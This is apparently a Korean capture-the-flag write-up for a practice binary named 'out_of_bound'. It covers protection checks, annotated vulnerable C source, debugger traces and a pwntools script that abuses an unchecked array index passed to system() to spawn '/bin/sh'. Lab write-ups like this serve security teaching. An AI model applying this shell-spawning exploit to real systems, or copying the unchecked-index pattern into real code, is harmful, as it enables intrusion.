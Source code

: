 #OOB #명령어주입

### 1. 파일 분석

file ./out_of_bound
./out_of_bound: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d83d8fb5458a8e0b408a23c97dfed327c1a8462c, not stripped

```
$ checksec out_of_bound
[*]
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

실습환경에는 ASLR이 적용되어 있고, 바이너리에는 NX와 Canary가 적용되어 있다. PIE는 적용되지 않았다.

ASLR이 적용되어 있기 때문에 실행시 마다 스택, 라이브러리 등의 주소가 랜덤화되고, NX가 적용되어 있기 때문에  임의의 위치에 셸코드를 집어 넣은 후 그 주소의 코드를 바로 실행 시킬 수 없다. Canary가 적용되어 있기 때문에 스택 맨 위에 존재하는 SFP, RET 과 그 뒷 주소를 마음대로 변경할 수 없다.

PIE 가 적용되지 않기 때문에 해당 바이너리가 실행되는 메모리 주소가 랜덤화 되지 않는다. 따라서 데이터 영역의 변수들은 항상 정해진 주소에 할당된다.

### 2. C 소스파일 분석

``` c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

/*
name은 16 바이트 크기의 버퍼
command 배열은 char * 포인터를 담고 있고, 몇개만 초기화되어 있음.
*/
char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    /*
    name 버퍼에 최대 16바이트를 read함.
    길이 제한(sizeof(name))이 정확히 설정되어잇어서  여기서는 버퍼 오버플로우는 발생하지 않음.

    정수 입력을 받아 command[idx]를 실행.
    이때 입력값 검증과정이 없기 때문에 취약점 발생.
    idx 가 0~4 이면 정상적으로 실행됨.
    idx 가 5~9 이면 NULL 이라서 system(NULL) 호출 -> segmentation fault(프로그램 종료)
    idx 가 음수 또는 큰수라면? -> command 은 배열 범위 밖 메모리를 system()의 인자로 접근 할 수 있다.-> Out of Bounds Read 취약점 발생.
    만약 그 주소에 공격자가 제어 가능한 문자열이 있다면, 원하는 커맨드를 실행할 수 있음.
    */
    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}

```

Out of bounds  취약점을 사용해 command[idx] 에 "/bin/sh\x00"이 들어가게 시도한다.

### 3. 익스플로잇

#### 1) 익스플로잇

command[idx] 의 값이 "ls", "id", "ps", "file ./oob", "cat" 5개 중 하나로 정해지려면 idx 에는 0 ~ 4 의 값만 들어가야 한다. 그러나 idx 의 범위에 대한 검사를 진행하지 않기 때문에 음수 값을 집어 넣어 command 주소보다 더 앞의 주소를 가져오거나, 4보다 큰 값을 집어넣어 "file ./oob" 가 저장된 주소보다 뒤의 주소를 가져 올 수 있다.

따라서 Out of bound 취약점이 발생한다. 

#### 2) command 와 name 의 주소 확인

command와 name 전역변수는 PIE가 꺼져 있기 때문에 실행시마다 일정한 주소에 위치한다.

```
pwndbg> p &command
$1 = (<data variable, no debug info> *) 0x804a060 <command>
pwndbg> p &name
$2 = (<data variable, no debug info> *) 0x804a0ac <name>
```

command 는 0x804a060,  name 은 0x804a0ac로, 74 바이트만큼 차이가 난다.
그러면 command[idx] 가 name 이나 name의 한 부분을 가리키게 만드는 것을 생각해 보자.
먼저 command 는 char * 형으로 정의되어 있다. x86, 즉 32비트 환경에서 실행되는 바이너리이기 때문에 각 주소는 32비트 또는 4바이트로 표현된다.

따라서 \*command = command[0] = 0x804a060 의 주소에 저장되어 있는 값을 가지고, command[1] 은 0x804a060 + 4 0x804a064 의 주소에 저장되어 있는 값을 가진다.

따라서 command[19] = 0x804a060 + 76 이 되어 name 의 주소에 저장되어 있는 값을 가리킨다.

#### 3) system 함수에 인자 전달.

name에 "/bin/sh\x00" 이 저장되어 있는 상황에서 idx = 19 를 입력한 상황을 시뮬해 본다.
```
...
   0x08048727 <+92>:    push   0x8048832
   0x0804872c <+97>:    call   0x8048540 <__isoc99_scanf@plt>
   0x08048731 <+102>:   add    esp,0x10
   0x08048734 <+105>:   mov    eax,DWORD PTR [ebp-0x10]
   0x08048737 <+108>:   mov    eax,DWORD PTR [eax*4+0x804a060]
   0x0804873e <+115>:   sub    esp,0xc
   0x08048741 <+118>:   push   eax
   0x08048742 <+119>:   call   0x8048500 <system@plt>
   0x08048747 <+124>:   add    esp,0x10
   0x0804874a <+127>:   mov    eax,0x0
   0x0804874f <+132>:   mov    edx,DWORD PTR [ebp-0xc]
   0x08048752 <+135>:   xor    edx,DWORD PTR gs:0x14
   0x08048759 <+142>:   je     0x8048760 <main+149>
   0x0804875b <+144>:   call   0x80484e0 <__stack_chk_fail@plt>
   0x08048760 <+149>:   mov    ecx,DWORD PTR [ebp-0x4]
   0x08048763 <+152>:   leave
   0x08048764 <+153>:   lea    esp,[ecx-0x4]
   0x08048767 <+156>:   ret
End of assembler dump.
pwndbg> b *main + 119
Breakpoint 1 at 0x8048742
```

```
pwndbg> r
Starting program: /home/jerry/bound/out_of_bound
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Admin name: /bin/sh
What do you want?: 19
```

```
─────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────
*EAX  0x6e69622f ('/bin')
*EBX  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
*ECX  0xffffbc24 —▸ 0xffffbc38 ◂— 0x13
 EDX  0x0
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0xffffbd14 —▸ 0xffffbf6f ◂— '/home/jerry/bound/out_of_bound'
*EBP  0xffffbc48 —▸ 0xf7ffd020 (_rtld_global) —▸ 0xf7ffda40 ◂— 0x0
*ESP  0xffffbc20 ◂— 0x6e69622f ('/bin')
*EIP  0x8048742 (main+119) —▸ 0xfffdb9e8 ◂— 0x0
───────────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────────
 ► 0x8048742 <main+119>    call   system@plt                     <system@plt>
        command: 0x6e69622f ('/bin')
```

system 함수에 인자로 EAX 레지스터의 값인 "/bin"이 들어 간 것을 볼 수 있다. 올바르게 진행 하기 위해서는 "/bin/sh\x00" 문자열 자체가 아닌, "/bin/sh\x00" 문자열이 저장되어 있는 주소가 인자로 들어가야 한다.
따라서 EAX 의 주소인 0x804a0ac 가 들어가야 한다.

#### 4) Payload 작성

name 에 8바이트의 "/bin/sh\x00" 을 넣은 후, 그 뒤에 pwntools의 p32 함수를 사용해  만든 0x804a0ac 를 붙여 총 12바이트를 저장한다.

그러면 name + 8 이 가지는 값이 0x804a0ac 이 되게 되고, command[19 + 2] = \*(name + 8) = 0x804a0ac 의 값을 가지게 된다.

system(0x804a0ac) 을 실행하면 0x804a0ac 주소, 즉 name 에 있는 "/bin/sh\x00" 를 실행시킬 수 있게 된다. 
전송해야 하는 idx 의 값은 19가 아닌 19 + 2 = 21 임의 유의하자.

``` python
from pwn import *

p = process("./out_of_bound")
# p = remote("host3.dreamhack.games", 18187)

'''
name변수에 system() 함수가 실행한 "/bin/sh\0x00"을 저장.
바로 이어서 name변수의 주소값을 추가.
name의 메모리 위치가 command를 기준으로 command[19]이므로 뒤에 추가로 적은 name 변수의 주소값이 있는 곳은 command[21] 이 된다.

1차적으로 read 함수와 연결되는 첫번째 sendline에 payload를 보내고,
2차적으로 systme()함수에서 name의 주소를 이용하기 위해 "21"을 scanf()에 의해 입력.

결과적으로 system(command[21])이 실행됨.
'''
payload = b"/bin/sh\x00" + p32(0x804a0ac)

p.sendline(payload) # read() 함수로 payload 전달
p.sendline(b"21")   # scanf() 함수로 payload 전달.

p.interactive()
```

문자열이 함수의 인자로 전달되는 과정에서 문자열 자체가 아닌 문자열을 가리키는 주소, 다른 말로 포인터를 전달해야 함다. !!!!!!!!!!
